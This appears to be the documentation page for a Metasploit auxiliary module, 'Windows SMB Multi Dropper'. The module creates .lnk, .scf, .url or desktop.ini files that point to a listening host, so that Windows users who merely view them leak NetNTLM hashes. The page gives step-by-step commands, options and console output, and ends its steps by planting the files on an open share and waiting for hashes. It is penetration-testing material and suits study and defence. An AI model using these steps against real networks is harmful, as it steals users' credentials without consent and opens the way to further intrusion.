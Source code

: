 This module dependent on the given filename extension creates either a .lnk, .scf, .url, desktop.ini file which includes a reference to 
the the specified remote host, causing SMB connections to be initiated from any user that views the file. This allows for NetNTLM hashes to be captured
by a listening user.

## Vulnerable Application

Microsoft Windows

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/multidrop```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

FILENAME - This option allows you to customise the generated filename and filetpye that is generated.
This can be changed using set FILENAME

To generate desktop.ini configure a filename of desktop.ini
To generate a scf file configure a filename of anyname.scf
To generate a url file configure a filename of anyname.url
To generate a lnk file configure a filename of anyname.lnk

File type generation is based on the file extension.

LHOST - This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25

## Scenarios

### Version of software and OS as applicable

  Microsoft Windows

  ```
  Console output
  ```

  ```
  msf auxiliary(multidrop) > show info

       Name: Windows SMB Multi Dropper
     Module: auxiliary/multidrop
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk

Basic options:
  Name      Current Setting  Required  Description
  ----      ---------------  --------  -----------
  FILENAME  desktop.ini      yes       Filename - supports .lnk, .scf, .url, desktop.ini
  LHOST     192.168.1.19     yes       Host listening for incoming SMB/WebDAV traffic

Description:
  This module dependent on the given filename extension creates either 
  a .lnk, .scf, .url, desktop.ini file which includes a reference to 
  the the specified remote host, causing SMB connections to be 
  initiated from any user that views the file.

msf auxiliary(multidrop) > exploit

[+] desktop.ini stored at /root/.msf4/local/desktop.ini
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.lnk
filename => test.lnk
msf auxiliary(multidrop) > exploit

[+] test.lnk stored at /root/.msf4/local/test.lnk
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.scf
filename => test.scf
msf auxiliary(multidrop) > exploit

[+] test.scf stored at /root/.msf4/local/test.scf
[] Auxiliary module execution completed
msf auxiliary(multidrop) > set filename test.url
filename => test.url
msf auxiliary(multidrop) > exploit

[+] test.url stored at /root/.msf4/local/test.url
[] Auxiliary module execution completed
msf auxiliary(multidrop) > back
 
  ```